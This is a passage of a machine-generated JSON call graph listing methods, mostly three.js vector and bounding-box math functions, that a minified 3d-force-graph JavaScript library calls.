"static/js/3d-force-graph-1.73.4.min.js", "target": "multiply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyEuler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyQuaternion"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyAxisAngle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyQuaternion"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyNormalMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyQuaternion"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "project"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "unproject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "transformDirection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "divide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "divideScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clamp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clampScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clampLength"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "divideScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "ceil"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "ceil"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "ceil"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "ceil"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "roundToZero"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "trunc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "trunc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "trunc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "negate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "lengthSq"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "manhattanLength"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "divideScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setLength"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "lerp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "lerpVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cross"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "crossVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "crossVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "projectOnVector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "lengthSq"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "projectOnPlane"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "projectOnVector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sub"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "reflect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sub"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "angleTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "lengthSq"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "acos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "distanceTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "distanceToSquared"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "manhattanDistanceTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromSpherical"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromSphericalCoords"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromSphericalCoords"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromCylindrical"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromCylindricalCoords"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromCylindricalCoords"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromMatrixPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromMatrixScale"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromMatrixColumn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromMatrixColumn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromMatrixColumn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromMatrixColumn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromMatrix3Column"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromEuler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "equals"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromBufferAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getX"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getY"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getZ"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "random"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "random"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "random"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "random"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "randomDirection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "random"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "random"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "makeEmpty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "expandByPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromBufferAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "makeEmpty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "expandByPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromPoints"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "makeEmpty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "expandByPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromCenterAndSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sub"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "makeEmpty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "expandByObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "makeEmpty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isEmpty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getCenter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isEmpty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isEmpty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "subVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "expandByPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "expandByVector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sub"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "expandByScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "expandByObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateWorldMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getVertexPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromBufferAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "expandByPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "computeBoundingBox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "computeBoundingBox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "union"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "expandByObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "containsPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "containsBox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getParameter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "intersectsBox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "intersectsSphere"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clampPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "distanceToSquared"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "intersectsPlane"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "intersectsTriangle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getCenter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "subVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "subVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "subVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "subVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "subVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "subVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "subVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "crossVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clampPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clamp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "distanceToPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clampPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "distanceTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getBoundingSphere"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isEmpty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "makeEmpty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getCenter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "intersect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isEmpty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "makeEmpty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "union"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", 